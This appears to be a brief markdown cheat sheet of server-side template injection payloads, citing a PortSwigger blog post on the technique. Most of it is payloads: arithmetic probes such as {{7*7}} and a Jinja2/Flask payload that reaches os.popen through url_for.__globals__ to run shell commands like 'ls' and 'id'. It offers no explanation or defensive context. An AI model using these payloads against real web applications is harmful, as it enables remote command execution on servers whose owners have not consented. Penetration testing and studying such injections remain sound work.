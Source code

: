 

´´´
{{7*7}}
{{333*2}}
{{url_for.__globals__.os.popen('ls').read()}}
´´´´

´´´´
os.popen('id').read()
´´´





#Refs:

- https://portswigger.net/blog/server-side-template-injection

